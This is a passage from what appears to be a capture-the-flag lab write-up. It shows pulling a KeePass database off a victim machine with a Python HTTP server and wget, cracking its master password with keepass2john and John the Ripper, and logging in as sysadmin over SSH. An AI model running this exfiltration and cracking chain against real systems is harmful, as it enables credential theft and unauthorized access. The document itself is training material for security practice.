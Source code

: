 ### \[-] sysadmin\@opacity

Checking the `/opt` directory reveals a KDBX file which is a database format used to store credentials in the [KeePass](https://keepass.info/) password manager:

![ef4fb4cf8bed64dcc6883b81664bb9d3.png](/resources/cf334323e0304ab8882b7ca15d3053cd.png)

To download the file, let's start a Python HTTP server on the victim machine:

```sh
python3 -m http.server 8888
```

![b9f243ae4796214b4ad75ffad8e8eec2.png](/resources/51c434bcc26144a9b0c78b2d4c78091a.png)

And download the file on our attacking machine:

```sh
wget $RHOSTS:8888/dataset.kdbx
```

![4ab3182727959357d02a9c6ee2c41045.png](/resources/765884a3b24e47a484b304e81583a528.png)

Now, on our attacking machine, we can use [keepass2john](https://github.com/openwall/john/blob/bleeding-jumbo/src/keepass2john.c) (already installed on Kali) to convert it to a format [John the Ripper](https://www.openwall.com/john/) can use.

```sh
keepass2john dataset.kdbx > dataset.john
```

Then crack it using John the Ripper with [this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt):

```sh
john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou-75.txt dataset.john
```

![5759904f4f1979193b0509e9aebec22a.png](/resources/ff1abd52b7964f7ba23c3662e91ea576.png)

To open this KDBX file, we need to download the KeePass application ([Linux/MacOS](https://keepassxc.org/), [Windows](https://keepass.info/download.html)). In KeePass, click on the "Open Database" button, select the `dataset.kbdx` file and enter the password when prompted:

![5076da35816954e9ed3bfd8029759b58.png](/resources/68c132df53e84af7bfd677f8eb519c45.png)

Then click on the Eye icon to reveal the password.

Use these credentials to login via SSH using the [ssh](https://linux.die.net/man/1/ssh) command and enter the password when prompted:

```sh
ssh sysadmin@$RHOSTS
```

![3d9ccd9a52a38624401de1ca64aa626d.png](/resources/d72262d6d2e24f4ca54810e62a97ae34.png)
